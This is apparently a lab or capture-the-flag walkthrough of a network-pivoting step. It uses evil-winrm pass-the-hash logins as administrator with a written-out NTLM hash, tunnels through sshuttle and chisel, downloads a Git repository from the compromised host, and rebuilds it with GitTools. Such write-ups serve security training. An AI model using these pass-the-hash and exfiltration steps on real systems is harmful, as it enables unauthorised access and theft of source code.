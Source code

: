
So rather than going and simply fuzzing we will take a you turn and simply download the source code locally aka move laterally.

Note that we have both the sshuttle and chisel running in order to access the personal webpage
![[Pasted image 20240101153914.png]]
![[Pasted image 20240101153848.png]]
![[Pasted image 20240101153858.png]]



```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```
![[Pasted image 20240101153504.png]]


```
C:\GitStack\repositories\Website.git
```

Will pop up one more shell
```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```

```
download Website.git
```
![[Pasted image 20240101155955.png]]
It sure took a lot of time to download this file b/w 2 proxy's but in the end we are able to download it.

```
mv Website.git .git
```
![[Pasted image 20240101160448.png]]


 the server doesn't need to store the easily readable versions of the files, this means that what we've downloaded isn't actually the full repository, so much as the building blocks we can use to recreate the repo (which is exactly what happens when using `git clone` to create a local copy of a repo!).

In order to extract the information from the repository, we use a suite of tools called GitTools.
```
git clone https://github.com/internetwache/GitTools
```

Git-Tools have 3 tools:
Dumper 
Extractor
Finder

So Extractors fits out requirement so will be using it from now.
```
./extractor.sh REPO_DIR DESTINATION_DIR
```
```
./extractor.sh ../../../Website.git ../../../Website
```
![[Pasted image 20240101163648.png]]
So let's analize what happened we simply download a website.git folder
And make .git folder inside that folder containing the same contents as well as git clone git tools in that only.



This is the output that we want
![[Pasted image 20240101163815.png]]